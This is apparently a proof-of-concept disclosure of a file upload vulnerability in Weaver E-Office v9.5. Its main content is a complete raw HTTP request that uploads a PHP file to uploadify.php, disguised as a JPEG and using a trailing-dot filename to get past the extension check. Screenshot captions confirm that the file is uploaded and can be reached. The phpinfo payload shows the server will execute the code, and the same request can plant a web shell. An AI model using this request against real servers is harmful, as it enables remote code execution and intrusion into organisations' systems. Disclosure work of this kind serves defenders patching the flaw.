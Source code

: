 weaver E-Office v9.5 file upload vulnerability

official website:https://www.e-office.cn/

Version:9.5

POC

```
POST /inc/jquery/uploadify/uploadify.php  HTTP/1.1
Host: xxxx8088
Content-Length: 204
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="Fdiledata"; filename="uploadify.php."
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
```

![WPS图片(1)](https://user-images.githubusercontent.com/129963609/235029265-2aa60bb9-9629-4db0-8285-38f97348b76d.png)

uploadify.php was successfully uploaded and the random folder name is returned
![WPS图片(2)](https://user-images.githubusercontent.com/129963609/235029305-44db1491-0ada-42e9-bb1a-5c35473d6aee.png)

Access uploadify.php
![WPS图片(3)](https://user-images.githubusercontent.com/129963609/235029321-0099ed30-925f-428f-aa59-42e8e51c4515.png)
